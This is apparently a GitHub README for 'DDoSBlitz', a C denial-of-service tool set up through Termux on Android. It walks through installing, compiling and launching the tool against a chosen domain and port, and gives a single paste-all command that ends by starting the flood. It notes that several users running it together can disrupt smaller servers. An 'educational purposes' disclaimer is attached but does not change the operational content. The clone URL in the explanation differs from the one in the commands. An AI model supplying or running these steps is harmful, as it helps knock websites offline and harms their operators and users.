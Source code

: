 # DDoS Attack Tool

## Overview

DDoS (Distributed Denial of Service) is a type of cyberattack where an attacker attempts to disrupt the normal functioning of a targeted server, service, or network by overwhelming it with a flood of internet traffic. The DDoSBlitz tool, written in C, is an open-source utility designed to simulate a DDoS attack. This document provides detailed instructions for setting up and using DDoSBlitz on Termux.

## What is DDoSBlitz?

DDoSBlitz is an open-source DDoS attack tool implemented in the C programming language. It is used for educational purposes to demonstrate how DDoS attacks work. This tool is specifically designed to be used on Linux-based systems, including Termux on Android devices.

## Using DDoSBlitz with Termux

While Termux runs on a mobile device, it does not have the same power as a full server. As a result, DDoSBlitz may not be effective against large websites (e.g., Google, Facebook) but can still cause noticeable disruptions on smaller servers when used by multiple users simultaneously.

### Installation Steps

1. **Install Termux**

   Download and install Termux from the [Google Play Store](https://play.google.com/store/apps/details?id=com.termux) or [F-Droid](https://f-droid.org/packages/com.termux/).

2. **Update and Upgrade Termux Packages**

   Open Termux and execute the following commands to update and upgrade your package list:

   ```bash
   apt update
   apt upgrade
   ```

3. **Install Required Packages**

   Install `git` and `clang`, which are needed to clone and compile the DDoSBlitz tool:

   ```bash
   pkg install git
   pkg install clang
   ```

4. **Clone the DDoSBlitz Repository**

   Download the DDoSBlitz source code from GitHub:

   ```bash
   git clone https://github.com/New71k/DDoSBlitz
   ```

5. **Compile the DDoSBlitz Tool**

   Navigate to the DDoSBlitz directory and compile the source code:

   ```bash
   cd DDoSBlitz
   clang DDoSBlitz.c -o DDoSBlitz
   ```

6. **Run the DDoSBlitz Tool**

   Execute the compiled tool, specifying the target website and port number. Replace `www.example.com` with the target domain and `80` with the target port:

   ```bash
   ./DDoSBlitz www.example.com 80
   ```

### All Commands

The following block contains all the necessary commands to set up, compile, and execute the DDoSBlitz tool in Termux. Copy and paste these commands in sequence to perform the entire setup:

```bash
apt update && apt upgrade -y && pkg install git && pkg install clang -y && git clone https://github.com/New71k/DDoSBlitz &&cd DDoSBlitz && clang DDoSBlitz.c -o DDoSBlitz && ./DDoSBlitz www.example.com 80
```

**Explanation:**

- `apt update && apt upgrade -y`: Updates the package list and upgrades installed packages to the latest versions.
- `pkg install git clang -y`: Installs the `git` and `clang` packages required for cloning the repository and compiling the code.
- `git clone https://github.com/New71k/DDos/blob/main/DDoSBlitz.c`: Clones the repository containing the DDoSBlitz source code from GitHub.
- `cd DDoSBlitz`: Navigates to the directory where the source code is located.
- `clang DDoSBlitz.c -o DDoSBlitz`: Compiles the source code into an executable named `DDoSBlitz`.
- `./DDoSBlitz www.example.com 80`: Executes the DDoSBlitz tool with the specified target domain and port.

## Disclaimer

This tool is intended solely for educational purposes. Unauthorized use of DDoSBlitz or similar tools to attack servers or services without explicit permission is illegal and unethical. Always ensure you have proper authorization before conducting any tests.

## License

This code is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Credits

- **Author**: New71k
